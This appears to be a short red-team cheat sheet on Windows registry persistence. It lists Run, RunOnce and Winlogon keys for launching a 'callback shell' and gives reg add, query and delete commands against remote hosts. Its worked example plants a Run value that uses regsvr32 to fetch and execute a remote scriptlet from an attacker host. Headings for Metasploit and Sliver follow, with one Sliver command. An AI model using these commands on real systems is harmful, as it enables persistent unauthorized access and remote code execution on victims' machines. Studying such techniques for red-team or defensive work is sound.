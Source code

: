 # Registry

## These are the following registry path to create registry values to spawn a callback shell

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run

HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```

## Manual

### Registry key syntax

```
C:\> reg add \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /t reg_sz /d <commands>

C:\> reg query \\<IP>\hklm\software\microsoft\windows\currentversion\run

C:\> reg delete \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /f
```

### Here's the following example

```
C:\> reg add \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /t REG_SZ /d "regsvr32 /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"

C:\> reg query \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run

C:\> reg delete \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /f
```

## Metasploit

## Sliver

`sliver (IMPLANT_NAME) > registry`